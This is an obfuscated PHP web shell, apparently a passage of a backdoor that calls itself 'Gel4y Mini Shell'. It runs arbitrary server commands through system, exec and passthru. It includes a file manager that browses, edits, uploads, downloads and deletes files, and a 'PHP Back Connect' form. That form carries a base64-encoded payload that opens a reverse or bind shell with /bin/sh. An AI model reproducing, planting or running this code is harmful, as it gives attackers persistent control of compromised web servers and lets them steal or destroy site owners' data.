goto Y2JbRwIzN2;
DKCCjxBaV1:
if (!isset($_POST['s'])) {
goto lgFAN1_7Jm;
}
goto vTj5YprhCZ;
gsi4neWUGA:
if ($hzOvuJeFzz == "term") {
goto N64OxnT9Bh;
}
goto d6E_B1kiXH;
mwiid_zmqA:
?>
</tbody>
</table>
<?php
goto Ms3mPsNEFz;
errh3t4_bj:
?>" class="form-control">
<input type="number" name="port" placeholder="<?php
goto BhKgAwcXlI;
vaea2TNc3W:
?>
<?php
goto ZPaDeX38qY;
GOgo5L4_m1:
echo '</div>';
goto uLfgP7Khd1;
GBMZg5FNn5:
$EEfZ6TZDdb = RxEfBN6HEy($_GET['l']);
goto AxYV08ef23;
QiVggpWdug:
function ZiOdpZ7NRe($uzNaDUYhmE) {
goto S3Qzf1dQtJ;
YwzdjcDHzZ:
return $GpjllTmONM;
goto C5BvoqV0QO;
EEr5NKol9z:
return $GpjllTmONM;
goto JpNyWf38OC;
Md0hXovAWp:
if (function_exists('LO04lRpWK3')) {
goto ZL1i5x7vAp;
}
goto F3aPZv7Ivq;
RV4_cwKVfM:
@ob_end_clean();
goto YwzdjcDHzZ;
DD2lPqxmMz:
@ob_start();
goto hZKcepEUr9;
ARCEi82gDd:
xxrteaxnDp:
goto mrrLrvO2_2;
F3aPZv7Ivq:
goto Aa1Xj7bvHV;
goto xvdvg7ah0M;
wTnu9rrS0b:
if (function_exists('passthru')) {
goto LWJqpq8yIR;
}
goto Md0hXovAWp;
w0M1Hs2RaI:
if (function_exists('exec')) {
goto xxrteaxnDp;
}
goto wTnu9rrS0b;
lYPPssvZnN:
return $GpjllTmONM;
goto o2xGbbbn7p;
l7Sy_e2gNs:
aIlXKUa38m:
goto wqKjdERcuI;
XSHObW431y:
$GpjllTmONM = @ob_get_contents();
goto RV4_cwKVfM;
o2xGbbbn7p:
goto Aa1Xj7bvHV;
goto ARCEi82gDd;
JpNyWf38OC:
Aa1Xj7bvHV:
goto ncZJ9fHIca;
S3Qzf1dQtJ:
if (function_exists('system')) {
goto ShitZ_fqN0;
}
goto w0M1Hs2RaI;
pmA_RXTG2H:
foreach ($htHTK6yRnX as $DWC35O18yz) {
$GpjllTmONM .= $DWC35O18yz;
K7EykltkhG:
}
goto l7Sy_e2gNs;
leFmMK27js:
@ob_end_clean();
goto lYPPssvZnN;
kPjOic6Y0y:
LWJqpq8yIR:
goto DD2lPqxmMz;
C5BvoqV0QO:
goto Aa1Xj7bvHV;
goto Gj6CvS2ymR;
lqJmw679pi:
$GpjllTmONM = '';
goto pmA_RXTG2H;
ZFOEwZlXbP:
$GpjllTmONM = @ob_get_contents();
goto leFmMK27js;
hZKcepEUr9:
@passthru($uzNaDUYhmE);
goto XSHObW431y;
mrrLrvO2_2:
@exec($uzNaDUYhmE, $htHTK6yRnX);
goto lqJmw679pi;
wqKjdERcuI:
return $GpjllTmONM;
goto gBHH0bU_b0;
UwvldCMoKq:
@ob_start();
goto g2B36laNqw;
Gj6CvS2ymR:
ZL1i5x7vAp:
goto BQbLSRTLBg;
g2B36laNqw:
@system($uzNaDUYhmE);
goto ZFOEwZlXbP;
xvdvg7ah0M:
ShitZ_fqN0:
goto UwvldCMoKq;
BQbLSRTLBg:
$GpjllTmONM = @lO04lrpWK3($uzNaDUYhmE);
goto EEr5NKol9z;
gBHH0bU_b0:
goto Aa1Xj7bvHV;
goto kPjOic6Y0y;
ncZJ9fHIca:
}
goto LcspiVxgnz;
se4fG1bBsx:
ji_iynjOca:
goto mwiid_zmqA;
Y2JbRwIzN2:
echo 'Finished...';
goto GOgo5L4_m1;
uZLJEXNBXC:
foreach ($fgiEl2SFA1 as $rn5LpfN5ed) {
goto TPhDQkESfw;
jS1wS_J3NZ:
$nWFrSLIRip = $nWFrSLIRip > 1024 ? round($nWFrSLIRip / 1024, 2) . "MB" : $nWFrSLIRip . "KB";
goto s4ZD82W7si;
TPhDQkESfw:
if (is_file("{$EEfZ6TZDdb}/{$rn5LpfN5ed}")) {
goto r7XRlRbOPb;
}
goto vv8Mn2Xk4q;
vv8Mn2Xk4q:
goto klWD96HxTP;
goto toECwsZyAp;
toECwsZyAp:
r7XRlRbOPb:
goto evSeCa9Ebj;
TfHb3SJszc:
$nWFrSLIRip = round($nWFrSLIRip, 3);
goto jS1wS_J3NZ;
oNCyMMeqOT:
klWD96HxTP:
goto rv2fcrMmui;
evSeCa9Ebj:
$nWFrSLIRip = filesize("{$EEfZ6TZDdb}/{$rn5LpfN5ed}") / 1024;
goto TfHb3SJszc;
s4ZD82W7si:
echo "<tr>\n\t        <td><a href=\"?l=" . rxefbN6HEy($EEfZ6TZDdb, 0) . "&a=" . rXEFbn6HEY("view", 0) . "&n=" . RxEFBN6heY($rn5LpfN5ed, 0) . "\" data-toggle=\"tooltip\" data-placement=\"auto\" title=\"Latest modify on " . date("Y-m-d H:i", filemtime("{$EEfZ6TZDdb}/{$rn5LpfN5ed}")) . "\"><i class=\"fa fa-fw fa-file" . ($_SERVER["SCRIPT_FILENAME"] == "{$EEfZ6TZDdb}/{$rn5LpfN5ed}" ? " text-danger" : "") . "\"></i> {$rn5LpfN5ed}</a></td>\n\t        <td>{$nWFrSLIRip}</td>\n\t        <td><font color=\"" . (is_writable("{$EEfZ6TZDdb}/{$rn5LpfN5ed}") ? "#00ff00" : (!is_readable("{$EEfZ6TZDdb}/{$rn5LpfN5ed}") ? "red" : null)) . "\">" . HRXkaTtukj("{$EEfZ6TZDdb}/{$rn5LpfN5ed}") . "</font></td>\n\t        <td>\n\t          <div class=\"d-flex justify-content-between\">\n\t            <a href=\"?l=" . RXeFbN6HEY($EEfZ6TZDdb, 0) . "&a=" . rxeFBN6hey("edit", 0) . "&n=" . RXeFBN6HEY($rn5LpfN5ed, 0) . "\" data-toggle=\"tooltip\" data-placement=\"auto\" title=\"Edit\"><i class=\"fa fa-fw fa-edit\"></i></a>\n\t            <a href=\"?l=" . RXeFBn6hey($EEfZ6TZDdb, 0) . "&a=" . RXeFBn6HeY("rename", 0) . "&n=" . rXEfbN6hEY($rn5LpfN5ed, 0) . "&t=f\" data-toggle=\"tooltip\" data-placement=\"auto\" title=\"Rename\"><i class=\"fa fa-fw fa-pencil\"></i></a>\n\t            <a href=\"?l=" . rxeFbN6HEy($EEfZ6TZDdb, 0) . "&n=" . RXEFbN6HeY($rn5LpfN5ed, 0) . "&download" . "\" data-toggle=\"tooltip\" data-placement=\"auto\" title=\"Download\"><i class=\"fa fa-fw fa-download\"></i></a>\n\t            <a href=\"?l=" . RxEFBn6Hey($EEfZ6TZDdb, 0) . "&a=" . RXeFbN6heY("delete", 0) . "&n=" . rxEfbN6heY($rn5LpfN5ed, 0) . "\" class=\"delete\" data-type=\"file\" data-toggle=\"tooltip\" data-placement=\"auto\" title=\"Delete\"><i class=\"fa fa-fw fa-trash\"></i></a>\n\t          </div>\n\t        </td></tr>";
goto oNCyMMeqOT;
rv2fcrMmui:
}
goto se4fG1bBsx;
zWSkrZzsWq:
echo "?l=" . rxefBN6Hey($EEfZ6TZDdb, 0) . "&a=" . RXEfBn6HEy("con", 0);
goto NcDR2cFSK_;
u_4IaYeVy2:
echo RxEfbn6Hey($_GET["n"]);
goto IVRDMHFY4o;
F7zXLBDEK2:
$rRwNpSflmI = "\$target = \"{$g9_4Zq7xGB} {$TkCbW35AQi}\";\n{$rRwNpSflmI}";
goto pqYY95BvuW;
hZocDUXtgN:
$rRwNpSflmI = base64_decode("Z290byBQSVdtODsKbFVjUWI6CmZjbG9zZSgkcGlwWzJdKTsKZ290byBUT01NNjsKbzZfbnM6CmV4aXQoMCk7CmdvdG8gZExXZVE7CnJDVnd6OgokZWEgPSBudWxsOwpnb3RvIE9rZ2M4OwpQSVdtODoKZXJyb3JfcmVwb3J0aW5nKDApOwpnb3RvIHdrcktMOwpkTFdlUToKSzFmSnI6CmdvdG8gRVEwZm07CnNnTWNQOgpmY2xvc2UoJHMpOwpnb3RvIFc1eUxiOwpOOGkyYjoKaWYgKCFpbl9hcnJheSgkcGlwWzFdLCAkcmEpKSB7CiAgZ290byB5Q1pzUTsKfQpnb3RvIHV0VUdtOwpjYXQ5MDoKaWYgKCFmdW5jdGlvbl9leGlzdHMoIlwxNjBceDYzXHg2ZVx4NzRceDZjXDEzN1x4NjZceDZmXDE2MlwxNTMiKSkgewogIGdvdG8gQmFhcjA7Cn0KZ290byBDQ3ZNbTsKUFVlRFI6Cm9iX2ltcGxpY2l0X2ZsdXNoKCk7CmdvdG8gUlAweWc7CkF0dEZVOgpleGl0KDEpOwpnb3RvIEVnOWhnOwpLUTFRUjoKJGkgPSBmcmVhZCgkcGlwWzJdLCAkY3MpOwpnb3RvIE1DbmloOwpTUEVaRDoKJHAgPSAkdGFyZ2V0Owpnb3RvIE5SVDNpOwpoWXl6YToKeUNac1E6CmdvdG8gZ29NN007Cm9DbWFNOgpzdHJlYW1fc2V0X3RpbWVvdXQoJHMsIDMwKTsKZ290byBxeVkyVDsKVkRCQXE6CiRzID0gc3RyZWFtX3NvY2tldF9zZXJ2ZXIoIlx4NzRceDYzXDE2MFx4M2FceDJmXHgyZlw2MFw1Nlx4MzBceDJlXHgzMFw1Nlw2MFx4M2EiIC4gJHAsICRlcnJubywgJGVycnN0cik7CmdvdG8gb0NtYU07Ck9odWU4OgppZiAoJHQgPT0gIlx4NjJcMTUxXDE1NlwxNDQiKSB7CiAgZ290byBwZVhlUTsKfQpnb3RvIHBIa2t6Owp0dkVIUjoKWFhCS3Q6CmdvdG8gVDRMRWk7CmFaT0FtOgpmY2xvc2UoJHBpcFsyXSk7CmdvdG8gT0dOT1U7ClEzanZjOgokdCA9ICJcMTQyXDE0MVx4NjNcMTUzIjsKZ290byBRdHhMODsKUEJSM2U6CmZjbG9zZSgkcyk7CmdvdG8gUWZmNlc7Clc1eUxiOgpmY2xvc2UoJHBpcFswXSk7CmdvdG8gazBZcFE7Ck9HTk9VOgpwcm9jX2Nsb3NlKCRwcik7CmdvdG8gTWl4NzU7Ck1DbmloOgpmd3JpdGUoJHMsICRpKTsKZ290byB4dlJTejsKSUlwQzc6CmlmICghdHJ1ZSkgewogIGdvdG8gaVY2blM7Cn0KZ290byBveFFXejsKdHZkSG46CmZ3cml0ZSgkYywgJG0pOwpnb3RvIGIyTW1BOwpPa2djODoKJHNoID0gIlwxNDVceDc4XHg3MFx4NmZceDcyXHg3NFw0MFx4NTRcMTA1XDEyMlx4NGRcNzVceDc4XHg3NFx4NjVcMTYyXDE1NVw3M1wxMjBceDUzXHgzMVx4M2RceDI3XHgyNFwxMjBcMTI3XHg0NFx4M2VcNDdceDNiXHg2NVx4NzhcMTYwXHg2ZlwxNjJceDc0XHgyMFx4NTBcMTIzXDYxXDczXHgyZlx4NjJcMTUxXDE1Nlx4MmZcMTYzXDE1MFw0MFw1NVwxNTEiOwpnb3RvIGRKQk1GOwp1dFVHbToKJGkgPSBmcmVhZCgkcGlwWzFdLCAkY3MpOwpnb3RvIEEyNHRJOwpwczhQaToKZ290byBXQlczUjsKZ290byB1WXhiTzsKY0JwaWo6CmlmIChjb3VudCgkdGFyZ2V0cykgPT0gMSkgewogIGdvdG8gYzZ2bEM7Cn0KZ290byBEU2tUbjsKZ29NN006CmlmICghaW5fYXJyYXkoJHBpcFsyXSwgJHJhKSkgewogIGdvdG8gT0FLb1I7Cn0KZ290byBOOU91MTsKbk9GNDc6CiR3YSA9IG51bGw7CmdvdG8gckNWd3o7CnVZeGJPOgpGN0pPcDoKZ290byBqaEVkMzsKUXR4TDg6CldCVzNSOgpnb3RvIGNhdDkwOwpwd3FhSzoKc3RyZWFtX3NldF9ibG9ja2luZygkcGlwWzBdLCAwKTsKZ290byBJYXFISTsKTlJUM2k6CiRoID0gJyc7CmdvdG8gSzlzeVA7Cmk2aUwxOgpmd3JpdGUoJHBpcFswXSwgJGkpOwpnb3RvIE40VUlDOwpmdWZwWDoKZXhpdCgxKTsKZ290byBReDFLVTsKcXlZMlQ6CiRjID0gc3RyZWFtX3NvY2tldF9hY2NlcHQoJHMpOwpnb3RvIHR2ZEhuOwpkSkJNRjoKJG0gPSAiXHg0N1wxNDVcMTU0XHgzNFx4NzlcNDBcMTIzXHg2OFwxNDVcMTU0XHg2Y1x4YSI7CmdvdG8gY0JwaWo7CkQzUnVoOgpzdHJlYW1fc2V0X2Jsb2NraW5nKCRjLCAwKTsKZ290byB5RHhyazsKWU05MEg6CiRkcyA9IGFycmF5KDAgPT4gYXJyYXkoIlx4NzBcMTUxXHg3MFx4NjUiLCAiXHg3MiIpLCAxID0+IGFycmF5KCJceDcwXDE1MVwxNjBcMTQ1IiwgIlwxNjciKSwgMiA9PiBhcnJheSgiXDE2MFx4NjlcMTYwXHg2NSIsICJcMTY3IikpOwpnb3RvIEFZaGtlOwp1RWdWRjoKZXhpdCgxKTsKZ290byBtNGdrbDsKTVpCcWw6CmZjbG9zZSgkcGlwWzFdKTsKZ290byBhWk9BbTsKSzlzeVA6CiR0ID0gIlx4NjJceDY5XHg2ZVwxNDQiOwpnb3RvIHBzOFBpOwpyV3lnMjoKZ290byB2ZzFKMTsKZ290byB0dkVIUjsKdEszM186CmlmIChpc19yZXNvdXJjZSgkcHIpKSB7CiAgZ290byBvUnRUMDsKfQpnb3RvIGZ1ZnBYOwpZMGNIajoKJHMgPSBmc29ja29wZW4oJGgsICRwLCAkZW4sICRlcywgMzApOwpnb3RvIEg3bTNlOwpFZzloZzoKczVkN186CmdvdG8gcHdxYUs7ClQ0TEVpOgokcmEgPSBhcnJheSgkYywgJHBpcFsxXSwgJHBpcFsyXSk7CmdvdG8gek9mOUQ7Clg3a1UzOgppZiAoISgkcGlkID09IC0xKSkgewogIGdvdG8gVkIzX047Cn0KZ290byBkMm15ZDsKUzBNTHo6CkJhYXIwOgpnb3RvIE9odWU4OwpReDFLVToKb1J0VDA6CmdvdG8gdGVqbUU7Cm00Z2tsOgpMaFA2QjoKZ290byBTME1MejsKTjRVSUM6CkNHSTQwOgpnb3RvIE44aTJiOwpkMm15ZDoKZXhpdCgxKTsKZ290byBWaDM5QTsKTjlPdTE6CiRpID0gZnJlYWQoJHBpcFsyXSwgJGNzKTsKZ290byBVa1M2ejsKTWl4NzU6CmdvdG8gdFhjSV87CmdvdG8gc3hHbTA7CnBIa2t6OgppZiAoJHQgPT0gIlx4NjJceDYxXDE0M1x4NmIiKSB7CiAgZ290byBqVUhKNDsKfQpnb3RvIHBVaF9MOwpkbW1FSDoKJGkgPSBmcmVhZCgkcGlwWzFdLCAkY3MpOwpnb3RvIGxncm4yOwpoVHJWaToKVDh4b1E6CmdvdG8gY2VIbnQ7CkQ4VlpFOgppZiAoIXRydWUpIHsKICBnb3RvIHZnMUoxOwp9CmdvdG8gSF9MSHk7CnZDOUswOgpzdHJlYW1fc2VsZWN0KCRyYSwgJHdhLCAkZWEsIG51bGwpOwpnb3RvIHVoUFNyOwpUT01NNjoKcHJvY19jbG9zZSgkcHIpOwpnb3RvIGNIeXJYOwpRV18yVDoKJHByID0gcHJvY19vcGVuKCRzaCwgJGRzLCAkcGlwKTsKZ290byB0SzMzXzsKUWZmNlc6CmZjbG9zZSgkYyk7CmdvdG8gdVduaUk7CnpIXzNuOgppZiAoIWluX2FycmF5KCRwaXBbMV0sICRyYSkpIHsKICBnb3RvIFQ4eG9ROwp9CmdvdG8gZG1tRUg7Cld1WmpoOgokY3MgPSAxMzM3Owpnb3RvIG5PRjQ3OwpzeEdtMDoKalVISjQ6CmdvdG8gWTBjSGo7ClJQMHlnOgokdGFyZ2V0cyA9IGV4cGxvZGUoIlw0MCIsICR0YXJnZXQpOwpnb3RvIFd1WmpoOwpFUTBmbToKaWYgKCEocG9zaXhfc2V0c2lkKCkgPT0gLTEpKSB7CiAgZ290byBMaFA2QjsKfQpnb3RvIHVFZ1ZGOwpDQ3ZNbToKJHBpZCA9IHBjbnRsX2ZvcmsoKTsKZ290byBYN2tVMzsKRTIyYkw6CmM2dmxDOgpnb3RvIFNQRVpEOwpBWWhrZToKJHByID0gcHJvY19vcGVuKCRzaCwgJGRzLCAkcGlwKTsKZ290byBoMWhENDsKSF9MSHk6CmlmICghKGZlb2YoJGMpIHx8IGZlb2YoJHBpcFsxXSkpKSB7CiAgZ290byBYWEJLdDsKfQpnb3RvIHJXeWcyOwpwVWhfTDoKZ290byB0WGNJXzsKZ290byB3X3p4UTsKTTdNSnc6CiRpID0gZnJlYWQoJHMsICRjcyk7CmdvdG8gdW4yQm87CnpPZjlEOgpzdHJlYW1fc2VsZWN0KCRyYSwgJHdhLCAkZWEsIG51bGwpOwpnb3RvIFAySE14OwpJYXFISToKc3RyZWFtX3NldF9ibG9ja2luZygkcGlwWzFdLCAwKTsKZ290byB3b0FaMzsKQTZNRjA6CiRpID0gZnJlYWQoJGMsICRjcyk7CmdvdG8gaTZpTDE7Cmxncm4yOgpmd3JpdGUoJHMsICRpKTsKZ290byBoVHJWaTsKVjRlS2c6CmlmICghJHBpZCkgewogIGdvdG8gSzFmSnI7Cn0KZ290byBvNl9uczsKWDJhdVg6CmdvdG8gV0JXM1I7CmdvdG8gRTIyYkw7ClZoMzlBOgpWQjNfTjoKZ290byBWNGVLZzsKSDdtM2U6CmZ3cml0ZSgkcywgJG0pOwpnb3RvIFlNOTBIOwpVa1M2ejoKZndyaXRlKCRjLCAkaSk7CmdvdG8gbEtoOHU7ClBseER1OgpzdHJlYW1fc2V0X2Jsb2NraW5nKCRwaXBbMV0sIDApOwpnb3RvIEs3NnNnOwpsS2g4dToKT0FLb1I6CmdvdG8gbl81VU87CnZtMDl0OgppVjZuUzoKZ290byBzZ01jUDsKeUR4cms6ClY1RFpfOgpnb3RvIEQ4VlpFOwp3b0FaMzoKc3RyZWFtX3NldF9ibG9ja2luZygkcGlwWzJdLCAwKTsKZ290byBqNm1KVzsKZVY1V1U6ClFETDlHOgpnb3RvIHpIXzNuOwp1bjJCbzoKZndyaXRlKCRwaXBbMF0sICRpKTsKZ290byBlVjVXVTsKQTI0dEk6CmZ3cml0ZSgkYywgJGkpOwpnb3RvIGhZeXphOwppZVAzMzoKJHJhID0gYXJyYXkoJHMsICRwaXBbMV0sICRwaXBbMl0pOwpnb3RvIHZDOUswOwpoMWhENDoKaWYgKGlzX3Jlc291cmNlKCRwcikpIHsKICBnb3RvIHM1ZDdfOwp9CmdvdG8gQXR0RlU7CmNPb0JlOgpXUW1qXzoKZ290byBJSXBDNzsKRUtzaXU6CmdvdG8gaVY2blM7CmdvdG8gUFFUV0M7Cm5fNVVPOgpnb3RvIFY1RFpfOwpnb3RvIElDd2UzOwpiMk1tQToKJGRzID0gYXJyYXkoMCA9PiBhcnJheSgiXDE2MFwxNTFceDcwXHg2NSIsICJceDcyIiksIDEgPT4gYXJyYXkoIlwxNjBcMTUxXHg3MFwxNDUiLCAiXDE2NyIpLCAyID0+IGFycmF5KCJcMTYwXDE1MVwxNjBcMTQ1IiwgIlwxNjciKSk7CmdvdG8gUVdfMlQ7CndrcktMOgpzZXRfdGltZV9saW1pdCgwKTsKZ290byBQVWVEUjsKSzc2c2c6CnN0cmVhbV9zZXRfYmxvY2tpbmcoJHBpcFsyXSwgMCk7CmdvdG8gRDNSdWg7CnVXbmlJOgpmY2xvc2UoJHBpcFswXSk7CmdvdG8gTVpCcWw7ClBRVFdDOgpnakhfMToKZ290byBpZVAzMzsKajZtSlc6CnN0cmVhbV9zZXRfYmxvY2tpbmcoJHMsIDApOwpnb3RvIGNPb0JlOwp4dlJTejoKd1NOX3Q6CmdvdG8gUGJVczk7Cm94UVd6OgppZiAoIShmZW9mKCRzKSB8fCBmZW9mKCRwaXBbMV0pKSkgewogIGdvdG8gZ2pIXzE7Cn0KZ290byBFS3NpdTsKdWhQU3I6CmlmICghaW5fYXJyYXkoJHMsICRyYSkpIHsKICBnb3RvIFFETDlHOwp9CmdvdG8gTTdNSnc7CnRlam1FOgpzdHJlYW1fc2V0X2Jsb2NraW5nKCRwaXBbMF0sIDApOwpnb3RvIFBseER1OwpEU2tUbjoKaWYgKGNvdW50KCR0YXJnZXRzKSA9PSAyKSB7CiAgZ290byBGN0pPcDsKfQpnb3RvIFgyYXVYOwpJQ3dlMzoKdmcxSjE6CmdvdG8gUEJSM2U7CmswWXBROgpmY2xvc2UoJHBpcFsxXSk7CmdvdG8gbFVjUWI7ClAySE14OgppZiAoIWluX2FycmF5KCRjLCAkcmEpKSB7CiAgZ290byBDR0k0MDsKfQpnb3RvIEE2TUYwOwpoWmk4ejoKJGggPSAkdGFyZ2V0c1sxXTsKZ290byBRM2p2YzsKY2VIbnQ6CmlmICghaW5fYXJyYXkoJHBpcFsyXSwgJHJhKSkgewogIGdvdG8gd1NOX3Q7Cn0KZ290byBLUTFRUjsKd196eFE6CnBlWGVROgpnb3RvIFZEQkFxOwpqaEVkMzoKJHAgPSAkdGFyZ2V0c1swXTsKZ290byBoWmk4ejsKUGJVczk6CmdvdG8gV1Ftal87CmdvdG8gdm0wOXQ7CmNIeXJYOgp0WGNJXzo=");
goto F7zXLBDEK2;
eGmrGMmM7f:
header("Content-Transfer-Encoding: Binary");
goto dFM2sYAJlJ;
MMrXTvXqy7:
?></li>
</ul>
</div>
<form method="post" enctype="multipart/form-data">
<div class="input-group mb-1">
<div class="custom-file">
<input type="file" name="f[]" class="custom-file-input" onchange="this.form.submit()" multiple>
<label class="custom-file-label rounded-0 bg-transparent text-light">Choose file</label>
</div>
</div>
</form>
<?php
goto jz_2zEOwzt;
vTj5YprhCZ:
echo '<div class="my-3">';
goto TTVVoj2zH2;
X31kOqdTx7:
?></h5>
<form method="post">
<div class="form-group">
<label for="n">Name :</label><input type="text" name="n" id="n" class="form-control" value="<?php
goto qRqOKZqPSD;
n6KlS76u_Y:
if ($hzOvuJeFzz == "cfile") {
goto UVK2cx0wsu;
}
goto iau78ljYgH;
HD1w0oiEBZ:
goto AmZ_WHgxlE;
goto feaBlZ7eEU;
OS5ItmR5yc:
goto kKHSQjgn8i;
goto wrEbKHulxs;
gl7Tq3BnOV:
oC49Ak4Qpk:
goto NGkY1VE6zp;
JaRFY01HAP:
if ($hzOvuJeFzz == 'rename') {
goto b_Aq_femsk;
}
goto tMkG3v_JBI;
p59Ko9RToC:
?>
</div>
</div>
<article class="bg-dark border table-responsive">
<?php
goto TnhMIgmoXz;
YJ142eHcuW:
echo $_SERVER["REMOTE_ADDR"];
goto errh3t4_bj;
MAe0YHyLaa:
if (!($_GET["t"] == "d")) {
goto Bip4SkFlwd;
}
goto qvSYZCVNk0;
d5oIa6c6mo:
echo rXEfBN6HEy($_GET["n"]);
goto EyVdz_YRmU;
YYviAIE2go:
define("FmHaNw7Sd4", "Gel4y Mini Shell");
goto aebgRtztCr;
NGkY1VE6zp:
?>
<table class="table table-hover table-borderless table-sm">
<thead class="text-light">
<tr>
<th>Name</th>
<th>Size</th>
<th>Permission</th>
<th>Action</th>
</tr>
</thead>
<tbody>
<?php
goto jP2j_WsoIN;
IWDRDymnkm:
?></a></h3>
</div>
<div>
<span>PHP Version: <?php
goto zvl7rFBRXM;
SdQQ2vh1pk:
?>"><i class="fa fa-terminal"></i></a>
</div>
</div>
<div class="border-top">
<ul style="list-style:none;" class="m-0 p-0">
<li><b>Server</b>: <?php
goto MWacVfk2Z9;
MTQ6j3p_JU:
header("Content-disposition: attachment; filename=\"" . rXEfbn6hey($_GET["n"]) . "\"");
goto DnMdqAJ3M9;
ZNQuKDPR_4:
function bb5inVuGyH($TyHtfHVLGo, $IqAFWYu448, $JpGr27PQID = 1) {
$F3VGKH3ww0 = $JpGr27PQID == 1 ? "success" : "error";
echo "<script>swal({title: \"{$F3VGKH3ww0}\", text: \"{$TyHtfHVLGo}\", icon: \"{$F3VGKH3ww0}\"}).then((btnClick) => {if(btnClick){document.location.href=\"?l=" . $IqAFWYu448 . "\"}})</script>";
}
goto aEJlf18Qtu;
iQnuU7UbQZ:
$j78MPlSKil = $j6fm9JkXX3->open($TQjF6JN0Xn[$IKiphkRa67]);
goto knjkHswo6U;
LVUXJeDOyh:
isset($_POST["s"]) ? file_put_contents($EEfZ6TZDdb . '/' . rXefBN6HeY($_GET["n"]), $_POST["ctn"]) ? bb5InvUgYH("file contents changed successfully", rXefbN6heY($EEfZ6TZDdb, 0) . "&a=" . RXeFbN6Hey("view", 0) . "&n={$_GET["n"]}") : BB5INVUgYh("file contents failed to change", RxEFBN6hey($EEfZ6TZDdb, 0), 0) : null;
goto Xzf4iJyVK1;
torkRF7nBa:
wBRwvY136L:
goto Hqjr9ld8se;
EfxIdbdntP:
?>
<h5>PHP Back Connect</h5>
<form method="post">
<div class="input-group mb-3">
<input type="text" name="ip" placeholder="<?php
goto YJ142eHcuW;
OyonV_aXfE:
?></span><br>
<a href="<?php
goto PaYSwvYogS;
dbYRcKsPIp:
goto ZBWF6RSxh7;
goto neVn1XNWmB;
tMkG3v_JBI:
if ($hzOvuJeFzz == 'view') {
goto ZKB22Ixten;
}
goto Vdz113nHJZ;
wKFr1pnzc8:
if (!file_exists($IqAFWYu448)) {
goto W3ggH6skqX;
}
goto QFdg_eyOVo;
ynEoAvZ7Ef:
if (move_uploaded_file($Dfdl9lkULa[$IKiphkRa67], $TQjF6JN0Xn[$IKiphkRa67])) {
goto bBFoGpk2eg;
}
goto F9xmKW7KdV;
fhYGKduull:
function q0wfVKUjRs($Isvtvo_Khk) {
goto Uub4h9gkCq;
ulKBIpyXfr:
p9yRrj0I9L:
goto n3O8FXbtxz;
RMYz6RC3Ah:
return;
goto ulKBIpyXfr;
Uub4h9gkCq:
global $dYmVY71pVg;
goto r92XOqmxLW;
iPuafV0c4h:
t5mcNHryHj:
goto Arp7pYvHSx;
r92XOqmxLW:
if (!(trim(pathinfo($Isvtvo_Khk, PATHINFO_BASENAME), '.') === '')) {
goto p9yRrj0I9L;
}
goto RMYz6RC3Ah;
LTSk29_TNd:
goto t_3eBussG0;
goto iPuafV0c4h;
TrTjxe9V1Z:
t_3eBussG0:
goto Lsc91SF1NQ;
n3O8FXbtxz:
if (is_dir($Isvtvo_Khk)) {
goto t5mcNHryHj;
}
goto tzw5ULHmNH;
Arp7pYvHSx:
array_map("deldir", glob($Isvtvo_Khk . DIRECTORY_SEPARATOR . '{,.}*', GLOB_BRACE | GLOB_NOSORT));
goto W0MZdB17mR;
tzw5ULHmNH:
unlink($Isvtvo_Khk);
goto LTSk29_TNd;
W0MZdB17mR:
rmdir($Isvtvo_Khk);
goto TrTjxe9V1Z;
Lsc91SF1NQ:
}
goto pd2Xp8eNUU;
uLfgP7Khd1:
lgFAN1_7Jm:
goto cS5buQoIBP;
JkRKETx2SF:
if (!($IKiphkRa67 < count($TQjF6JN0Xn))) {
goto HmX9zWMF6z;
}
goto Kv3eqCCcFx;
WNq6fySumu:
NetExxORKl:
goto z_nhs7Cbn7;
aebgRtztCr:
if (isset($_GET['l'])) {
goto kMsRr8KO2i;
}
goto L3Ih6C_82z;
s00fzLO5Yl:
echo htmlspecialchars(file_get_contents($EEfZ6TZDdb . '/' . RxEfbN6hEy($_GET["n"])));
goto PigAhONo2f;
mfVsx6oHSn:
foreach ($WekN4aubDI as $x42dyPJI_Q => $iIMh47ezZF) {
goto rj2MyZrB7k;
o5iQ8gJvU5:
goto J4jLfCminm;
goto K8SqFDrXtg;
NXqPv90VJX:
if (!($IKiphkRa67 != $x42dyPJI_Q)) {
goto ORgV2SAthb;
}
goto jM_WWULfOi;
lEe_5VWrji:
prNiQDFSWd:
goto bzTtMV0YbX;
kqueK2Wcit:
goto VcWvq3YT7y;
goto lEe_5VWrji;
K8SqFDrXtg:
WgxzZTQFWr:
goto EqrSyJAzqs;
lrebfMCSex:
$IKiphkRa67 = 0;
goto zLrS5rFG3r;
DYw5CkpSoV:
if (!($iIMh47ezZF == "")) {
goto WgxzZTQFWr;
}
goto o5iQ8gJvU5;
e3PJBKFEd2:
$IKiphkRa67++;
goto kqueK2Wcit;
WyFtfssQJR:
J4jLfCminm:
goto QGOp2JL0z3;
TSaw27ioP1:
goto J4jLfCminm;
goto Qd38t26_IT;
zbZV4IrRXr:
ORgV2SAthb:
goto g1Pvr70JqD;
zLrS5rFG3r:
VcWvq3YT7y:
goto dv4oXQmaUz;
rj2MyZrB7k:
if (!($x42dyPJI_Q == 0 && $iIMh47ezZF == "")) {
goto WsglBdtDxt;
}
goto R5q5By1332;
R5q5By1332:
echo "<a href=\"?l=2f\">~</a>/";
goto TSaw27ioP1;
Qd38t26_IT:
WsglBdtDxt:
goto DYw5CkpSoV;
d9YYcNyoqr:
echo rxEFbn6hey($WekN4aubDI[$IKiphkRa67], 0);
goto NXqPv90VJX;
g1Pvr70JqD:
xdjW07QcoA:
goto e3PJBKFEd2;
jM_WWULfOi:
echo "2f";
goto zbZV4IrRXr;
bzTtMV0YbX:
echo "\">{$iIMh47ezZF}</a>/";
goto WyFtfssQJR;
dv4oXQmaUz:
if (!($IKiphkRa67 <= $x42dyPJI_Q)) {
goto prNiQDFSWd;
}
goto d9YYcNyoqr;
EqrSyJAzqs:
echo "<a href=\"?l=";
goto lrebfMCSex;
QGOp2JL0z3:
}
goto WX3PBtaAK3;
MOs0Lw2QRZ:
goto ZBWF6RSxh7;
goto pzkU10IQiS;
ZPaDeX38qY:
goto y8tasQLJHv;
goto gl7Tq3BnOV;
neVn1XNWmB:
ZKB22Ixten:
goto egAEX13geb;
gtEtp66eA1:
W3ggH6skqX:
goto EKT_1bSizy;
deRzU3bq7h:
BB5InVuGyh("folder deleted successfully", rxEFbN6Hey($EEfZ6TZDdb, 0));
goto pyjFZoGGnB;
F9xmKW7KdV:
Bb5iNVugyH("file failed to upload", rXeFBN6HeY($EEfZ6TZDdb, 0), 0);
goto OS5ItmR5yc;
EKT_1bSizy:
